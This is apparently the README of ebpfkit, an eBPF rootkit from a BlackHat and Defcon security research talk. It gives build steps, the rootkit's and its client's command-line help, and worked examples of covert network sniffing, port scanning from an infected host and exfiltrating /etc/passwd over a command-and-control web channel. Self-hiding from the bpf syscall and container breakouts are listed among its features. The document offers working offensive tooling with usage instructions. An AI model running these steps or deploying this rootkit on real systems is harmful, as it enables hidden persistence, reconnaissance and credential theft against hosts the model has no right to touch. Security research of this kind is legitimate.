


# ebpfkit

[](https://www.gnu.org/licenses/old-licenses/gpl-2.0.en.html)
[](https://opensource.org/licenses/Apache-2.0)

`ebpfkit` is a rootkit that leverages multiple eBPF features to implement offensive security techniques. We implemented most of the features you would expect from a rootkit: obfuscation techniques, container breakouts, persistent access, command and control, pivoting, network scanning, Runtime Application Self-Protection (RASP) bypass, etc.

This rootkit was presented at [BlackHat USA 2021: With Friends Like eBPF, Who Needs Enemies?](https://www.blackhat.com/us-21/briefings/schedule/#with-friends-like-ebpf-who-needs-enemies-23619) and [Defcon 29: eBPF, I thought we were friends !](https://defcon.org/html/defcon-29/dc-29-speakers.html#fournier). While we presented our container breakouts at BlackHat, you'll want to check out our Defcon talk to see a demo of the network scanner and the RASP bypass. Slides and recordings of the talks will be available soon.

## **Disclaimer**
This project is **not** an official Datadog product (experimental or otherwise), it is just code that happens to be developed by Datadog employees as part of an independent security research project. The rootkit herein is provided for educational purposes only and for those who are willing and curious to learn about ethical hacking, security and penetration testing with eBPF.

**Do not attempt to use these tools to violate the law. The author is not responsible for any illegal action. Misuse of the provided information can result in criminal charges.**

## System requirements

- golang 1.13+
- This project was developed on an Ubuntu Focal machine (Linux Kernel 5.4)
- Kernel headers are expected to be installed in `lib/modules/$(uname -r)` (see `Makefile`)
- clang & llvm (11.0.1)
- [Graphviz](https://graphviz.org/) (to generate graphs)
- [go-bindata](https://github.com/shuLhan/go-bindata) (`go get -u github.com/shuLhan/go-bindata/...`)

## Build

1) To build the entire project, run:

```shell script
# ~ make
```

2) To install `ebpfkit-client` (copies `ebpfkit-client` to `/usr/bin/`), run:
```shell script
# ~ make install_client
```

## Getting started

`ebpfkit` contains the entire rootkit. It needs to run as root. Run `sudo ./bin/ebpfkit -h` to get help. You can simply run `sudo ./bin/ebpfkit` to start the rootkit with default parameters.

```shell script
# ~ sudo ./bin/ebpfkit -h
Usage:
  ebpfkit [flags]

Flags:
      --append                        (file override feature only) when set, the content of the source file will be appended to the content of the target file
      --comm string                   (file override feature only) comm of the process for which the file override should apply
      --disable-bpf-obfuscation       when set, ebpfkit will not hide itself from the bpf syscall
      --disable-network-probes        when set, ebpfkit will not try to load its network related probes
      --docker string                 path to the Docker daemon executable (default "/usr/bin/dockerd")
  -e, --egress string                 egress interface name (default "enp0s3")
  -h, --help                          help for ebpfkit
  -i, --ingress string                ingress interface name (default "enp0s3")
  -l, --log-level string              log level, options: panic, fatal, error, warn, info, debug or trace (default "info")
      --postgres string               path to the Postgres daemon executable (default "/usr/lib/postgresql/12/bin/postgres")
      --src string                    (file override feature only) source file which content will be used to override the content of the target file
      --target string                 (file override feature only) target file to override
  -p, --target-http-server-port int   Target HTTP server port used for Command and Control (default 8000)
      --webapp-rasp string            path to the webapp on which the RASP is installed
# ~ sudo ./bin/ebpfkit
```

In order to use the client, you'll need to have an HTTP server to enable the Command and Control feature of the rootkit. We provide a simple webapp that you can start by running `./bin/webapp`. Run `./bin/webapp -h` to get help.

```shell script
# ~ ./bin/webapp -h
Usage of ./bin/webapp:
  -ip string
    	ip on which to bind (default "0.0.0.0")
  -port int
    	port to use for the HTTP server (default 8000)
# ~ ./bin/webapp
```

Once both `ebpfkit` and the `webapp` are running, you can start using `ebpfkit-client`. Run `ebpfkit-client -h` to get help.

```shell script
# ~ ebpfkit-client -h
Usage:
  ebpfkit-client [command]

Available Commands:
  docker            Docker image override configuration
  fs_watch          file system watches
  help              Help about any command
  network_discovery network discovery configuration
  pipe_prog         piped programs configuration
  postgres          postgresql authentication control

Flags:
  -h, --help               help for ebpfkit-client
  -l, --log-level string   log level, options: panic, fatal, error, warn, info, debug or trace (default "info")
  -t, --target string      target application URL (default "http://localhost:8000")

Use "ebpfkit-client [command] --help" for more information about a command.
```

## Examples

This section contains only 3 examples. We invite you to watch our BlackHat USA 2021 and Defcon 29 talks to see a demo of all the features of the rootkit. For example, you'll see how you can use Command and Control to change the passwords of a Postgresql database at runtime, or how we successfully hid the rootkit on the host.
We also demonstrate 2 container breakouts during our [BlackHat talk](https://www.blackhat.com/us-21/briefings/schedule/#with-friends-like-ebpf-who-needs-enemies-23619), and a RASP bypass during our [Defcon talk](https://defcon.org/html/defcon-29/dc-29-speakers.html#fournier).

### Exfiltrate passive network sniffing data

On startup, by default, the rookit will start listening passively for all the network connections made to and from the infected host. You can periodically poll that data using the `network_discovery` command of `ebpfkit-client`. It may take a while to extract everything so be patient ...

```shell script
# ~ ebpfkit-client -l debug network_discovery get
DEBUG[2021-08-04T10:10:46Z]
GET /get_net_dis HTTP/1.1
Host: localhost:8000
User-Agent: 0000________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________

DEBUG[2021-08-04T10:10:46Z]
GET /get_fswatch HTTP/1.1
Host: localhost:8000
User-Agent: 0/ebpfkit/network_discovery#________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________

DEBUG[2021-08-04T10:10:46Z]
GET /get_net_dis HTTP/1.1
Host: localhost:8000
User-Agent: 0015________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________

[...]

INFO[2021-08-04T10:10:57Z] Dumping collected network flows (358):
10.0.2.2:52615 -> 10.0.2.15:8000 (1) UDP 0B TCP 2461B
10.0.2.15:8000 -> 10.0.2.2:52615 (2) UDP 0B TCP 833B
10.0.2.15:0 -> 10.0.2.3:0 (3) UDP 0B TCP 0B
10.0.2.3:0 -> 10.0.2.15:0 (4) UDP 0B TCP 0B
10.0.2.15:22 -> 10.0.2.2:51653 (2) UDP 0B TCP 17120B
10.0.2.2:51653 -> 10.0.2.15:22 (1) UDP 0B TCP 13068B
10.0.2.15:48308 -> 3.233.147.212:443 (2) UDP 0B TCP 532255B

[...]

51.15.175.180:123 -> 10.0.2.15:36389 (1) UDP 76B TCP 0B
10.0.2.15:38116 -> 169.254.172.1:51678 (2) UDP 0B TCP 60B
10.0.2.15:38120 -> 169.254.172.1:51678 (2) UDP 0B TCP 60B
127.0.0.1:41900 -> 127.0.0.1:8000 (2) UDP 0B TCP 53525B
127.0.0.1:41900 -> 127.0.0.1:8000 (1) UDP 0B TCP 53525B
127.0.0.1:8000 -> 127.0.0.1:41900 (2) UDP 0B TCP 38518B
127.0.0.1:8000 -> 127.0.0.1:41900 (1) UDP 0B TCP 38518B
INFO[2021-08-04T10:10:58Z] Graph generated: /tmp/network-discovery-graph-453667534
```

The final step is to generate the *svg* file. We used the `fdp` layout of [Graphviz](https://graphviz.org/).

```shell script
# ~ fdp -Tsvg /tmp/network-discovery-graph-453667534 > ./graphs/passive_network_discovery.svg
```



### Run a port scan on 10.0.2.3, from port 7990 to 8010

> Note: for this feature to work, you cannot run `ebpfkit-client` locally. If you're running the rootkit in a guest VM, expose the webapp port (default 8000) of the guest VM to the host and make the `ebpfkit-client` request from the host.

To request a port scan, use the `network_discovery` command. You can specify the target IP, start port and port range.

```shell script
# ~ ebpfkit-client -l debug network_discovery scan --ip 10.0.2.3 --port 7990 --range 20
DEBUG[2021-08-04T11:59:46Z]
GET /get_net_sca HTTP/1.1
Host: localhost:8000
User-Agent: 0100000020030799000020______________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________

DEBUG[2021-08-04T11:59:51Z] {"api":{"version":"1.0.1","hash":"9b71d224bd62f3785d96d46ad3ea3d73319bfbc2890caadae2dff72519673ca72323c3d99ba5c11d7cfc1d215a922ad186ac28b0aaa23ed6ebe436e67aacd987cc6e14b8c5da0c4663475c2e5c3adef46f73bcdec043","git_commit":"c1d215a922ad186acbe436e6e2c513128b0aaa23ed6e3a4d48140b4931895384bc5b8074b7ef6b1a3e2a65b5be0c875871fec6e1a38f9c3de2c51313a4d48140b4931895384bc5b8074b7ef6b35c208abd4e16f2","release_date":"2021-03-29T13:51:31.606184183Z"},"timestamp":"2021-08-04T09:59:51.680566768Z","status":200,"data":"OK"}
```

On the infected host, you should see debug logs in `/sys/kernel/debug/tracing/trace_pipe`. For example, you should see the initial ARP request to resolve the MAC address of the target IP, and then a list of SYN requests to probe the ports from the requested range.

```shell script 
# ~ sudo cat /sys/kernel/debug/tracing/trace_pipe
          <idle>-0       [003] ..s.  5557.564353: 0: sending ARP request ...
          <idle>-0       [003] ..s.  5557.564451: 0: ARP response!
            sshd-3035    [003] ..s1  5559.108243: 0: SYN request answer (7990): rst:1 syn:0
            sshd-3035    [003] ..s.  5559.108482: 0: SYN request answer (7991): rst:1 syn:0
          <idle>-0       [003] ..s.  5559.108666: 0: SYN request answer (7992): rst:1 syn:0
            sshd-3035    [003] ..s.  5559.108882: 0: SYN request answer (7993): rst:1 syn:0
            sshd-3035    [003] ..s1  5559.109075: 0: SYN request answer (7994): rst:1 syn:0
            sshd-3035    [003] ..s1  5559.109304: 0: SYN request answer (7995): rst:1 syn:0
          <idle>-0       [003] .Ns.  5559.109568: 0: SYN request answer (7996): rst:1 syn:0
          <idle>-0       [003] ..s.  5559.109896: 0: SYN request answer (7997): rst:1 syn:0
     ksoftirqd/3-30      [003] ..s.  5559.110065: 0: SYN request answer (7998): rst:1 syn:0
            sshd-3035    [003] ..s.  5559.110344: 0: SYN request answer (7999): rst:1 syn:0
          <idle>-0       [003] ..s.  5559.110629: 0: OPEN PORT 8000
          <idle>-0       [003] ..s.  5559.110639: 0: SYN request answer (8000): rst:0 syn:1
          <idle>-0       [003] .Ns.  5559.110840: 0: SYN request answer (8001): rst:1 syn:0
            sshd-3035    [003] ..s.  5559.111100: 0: SYN request answer (8002): rst:1 syn:0
            sshd-3035    [003] ..s1  5559.111455: 0: SYN request answer (8003): rst:1 syn:0
            sshd-3035    [003] ..s1  5559.111661: 0: SYN request answer (8004): rst:1 syn:0
          <idle>-0       [003] .ns.  5559.111852: 0: SYN request answer (8005): rst:1 syn:0
          <idle>-0       [003] ..s.  5559.112016: 0: SYN request answer (8006): rst:1 syn:0
          <idle>-0       [003] ..s.  5559.112245: 0: SYN request answer (8007): rst:1 syn:0
          <idle>-0       [003] ..s.  5559.112597: 0: SYN request answer (8008): rst:1 syn:0
          <idle>-0       [003] ..s.  5559.112913: 0: SYN request answer (8009): rst:1 syn:0
            sshd-3035    [003] ..s.  5559.122702: 0: scan done !
```

Once the scan is finished, you can exfiltrate the scan result using the `network_discovery` command. You need to add the `active` flag to request the network traffic generated by the network scan. It may take a while to extract everything so be patient ...

```shell script
# ~ ebpfkit-client -l debug network_discovery get --active
DEBUG[2021-08-04T09:49:15Z]
GET /get_net_dis HTTP/1.1
Host: localhost:8000
User-Agent: 0000________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________

DEBUG[2021-08-04T09:49:15Z]
GET /get_fswatch HTTP/1.1
Host: localhost:8000
User-Agent: 0/ebpfkit/network_discovery#________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________

DEBUG[2021-08-04T09:49:15Z]
GET /get_net_dis HTTP/1.1
Host: localhost:8000
User-Agent: 0015________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________

[...]

INFO[2021-08-04T09:49:17Z] Dumping collected network flows (65):
10.0.2.15:48308 -> 3.233.147.212:443 (2) UDP 0B TCP 65811B
3.233.147.212:443 -> 10.0.2.15:48308 (1) UDP 0B TCP 17882B
10.0.2.2:51653 -> 10.0.2.15:22 (1) UDP 0B TCP 30320B
10.0.2.15:22 -> 10.0.2.2:51653 (2) UDP 0B TCP 39648B
127.0.0.1:41684 -> 127.0.0.1:8000 (2) UDP 0B TCP 4524B
127.0.0.1:41684 -> 127.0.0.1:8000 (1) UDP 0B TCP 4524B
127.0.0.1:8000 -> 127.0.0.1:41684 (2) UDP 0B TCP 3250B
127.0.0.1:8000 -> 127.0.0.1:41684 (1) UDP 0B TCP 3250B
127.0.0.1:42682 -> 127.0.0.53:53 (2) UDP 78B TCP 0B
127.0.0.1:42682 -> 127.0.0.53:53 (1) UDP 78B TCP 0B

[...]

10.0.2.15:57596 -> 10.0.2.3:53 (2) UDP 145B TCP 0B
10.0.2.3:53 -> 10.0.2.15:57596 (1) UDP 145B TCP 0B
127.0.0.1:53303 -> 127.0.0.53:53 (2) UDP 78B TCP 0B
127.0.0.1:53303 -> 127.0.0.53:53 (1) UDP 78B TCP 0B
10.0.2.15:34355 -> 10.0.2.3:53 (2) UDP 145B TCP 0B
10.0.2.3:53 -> 10.0.2.15:34355 (1) UDP 145B TCP 0B
127.0.0.53:53 -> 127.0.0.1:53303 (2) UDP 78B TCP 0B
127.0.0.53:53 -> 127.0.0.1:53303 (1) UDP 78B TCP 0B
127.0.0.1:41700 -> 127.0.0.1:8000 (2) UDP 0B TCP 9368B
127.0.0.1:41700 -> 127.0.0.1:8000 (1) UDP 0B TCP 9368B
127.0.0.1:8000 -> 127.0.0.1:41700 (2) UDP 0B TCP 6338B
127.0.0.1:8000 -> 127.0.0.1:41700 (1) UDP 0B TCP 6338B
INFO[2021-08-04T09:49:17Z] Graph generated: /tmp/network-discovery-graph-3064189396
```

The final step is to generate the *svg* file. We used the `fdp` layout of [Graphviz](https://graphviz.org/).

```shell script
# ~ fdp -Tsvg /tmp/network-discovery-graph-3064189396 > ./graphs/active_network_discovery.svg
```



### Dump the content of /etc/passwd

This is a 3 steps process. First you need to ask the rootkit to start looking for `/etc/passwd`. You can use the `fs_watch` command of `ebpfkit-client` to do that.

```shell script
# ~ ebpfkit-client -l debug fs_watch add /etc/passwd
DEBUG[2021-08-04T10:14:52Z]
GET /add_fswatch HTTP/1.1
Host: localhost:8000
User-Agent: 0/etc/passwd#_______________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________

DEBUG[2021-08-04T10:14:52Z]
{"api":{"version":"1.0.1","hash":"9b71d224bd62f3785d96d46ad3ea3d73319bfbc2890caadae2dff72519673ca72323c3d99ba5c11d7cfc1d215a922ad186ac28b0aaa23ed6ebe436e67aacd987cc6e14b8c5da0c4663475c2e5c3adef46f73bcdec043","git_commit":"c1d215a922ad186acbe436e6e2c513128b0aaa23ed6e3a4d48140b4931895384bc5b8074b7ef6b1a3e2a65b5be0c875871fec6e1a38f9c3de2c51313a4d48140b4931895384bc5b8074b7ef6b35c208abd4e16f2","release_date":"2021-03-29T13:51:31.606184183Z"},"timestamp":"2021-08-04T10:14:52.777484554Z","status":200,"data":"OK"}
```

Then, you need to wait until a process on the infected host opens and reads `/etc/passwd` (run `sudo su` to simulate this step). The rootkit will copy the content of the file as it is sent back to the process by the kernel.
Finally, you can exfiltrate the content of the file using the `fs_watch` command again.

```shell script
# ~ ebpfkit-client -l debug fs_watch get /etc/passwd
DEBUG[2021-08-04T10:18:35Z]
GET /get_fswatch HTTP/1.1
Host: localhost:8000
User-Agent: 0/etc/passwd#_______________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________________

INFO[2021-08-04T10:18:36Z] Dump of /etc/passwd:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
vagrant:x:1000:1000:,,,:/home/vagrant:/usr/bin/zsh
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1001:1001:Ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
postgres:x:112:121:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
____________________________________________________________________________________________________________________________________
```

## License

- The golang code is under Apache 2.0 License.
- The eBPF programs are under the GPL v2 License.